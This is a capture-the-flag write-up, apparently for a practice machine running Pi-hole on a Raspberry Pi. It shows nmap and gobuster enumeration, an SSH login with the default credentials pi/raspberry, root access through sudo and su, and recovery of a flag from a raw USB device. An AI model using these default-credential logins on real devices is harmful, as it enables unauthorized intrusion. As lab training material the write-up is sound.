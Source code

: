 
![image](https://user-images.githubusercontent.com/105310322/187500795-e2801f1b-8201-400d-9017-01895b8492b9.png)

### Tools: nmap, gobuster, ssh

### Vulnerabilities: Pi-Hole, Default credentials

Nmap shows us there is a webpage open.

The page is blank but a connection is established.

```console
└──╼ [★]$ nmap -sC -A -sV 10.129.50.166
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-30 16:29 BST
Nmap scan report for 10.129.50.166
Host is up (0.053s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
```

Running gobuster shows an admin and versions page we can check out.

```console
└──╼ [★]$ gobuster dir -u 10.129.50.166 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.50.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/30 16:33:18 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://10.129.50.166/admin/]
/versions             (Status: 200) [Size: 18]                                 
                                                                               
===============================================================
2022/08/30 16:33:31 Finished
===============================================================
```
Curl also reveals what the blank page is.

```console
└──╼ [★]$ curl -I 10.129.50.166
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Date: Tue, 30 Aug 2022 15:33:42 GMT
Server: lighttpd/1.4.35
```
Here we have the pi-hole admin page. This is our first hint that the page is being ran on a raspberry pi. Lets test some default credentials using the ssh port that nmap found.

![image](https://user-images.githubusercontent.com/105310322/187496695-09c93f38-309e-4c34-b6bf-847691968ea7.png)

A quick google search shows that the default credentials for a raspberry pi are User=pi and Pass=raspberry

Boom we are in pretty quickly!

```console
└──╼ [★]$ ssh pi@10.129.50.166
The authenticity of host '10.129.50.166 (10.129.50.166)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.50.166' (ECDSA) to the list of known hosts.
pi@10.129.50.166's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
pi@raspberrypi:~ $ 
```
Full sudo power!? but before I tried that, I did su root with the same default password.

EASY DAY! Already got root and the user flag!

```console
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

pi@raspberrypi:~ $ su root
Password: 
root@raspberrypi:/home/pi# 
```
```console
root@raspberrypi:/home/pi/Desktop# cat user.txt
ff83****************************
```

It was too good to be true :(
At least we got our next hint :)

The root.txt is hiding in a usb stick so lets see if we can find it.

```console
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
root@raspberrypi:~# 
```
lsblk shows us where we can find the usbstick however there is not root.txt found in /media

The drive is located at /dev/sdb

```console
root@raspberrypi:/# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
root@raspberrypi:/# 
```
After using cat on sdb if pops alot of incomprehensible code but at the bottom we can see a string of characters resembling our root flag!

```console
root@raspberrypi:/dev# cat sdb
�|}*,.������+-���3d3e****************************
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@raspberrypi:/dev# 
```

If using cat to read the sdb file did not work then my next option would have been to extract or mount the usb to try and read the files but luckily the important information was all there.

GG!
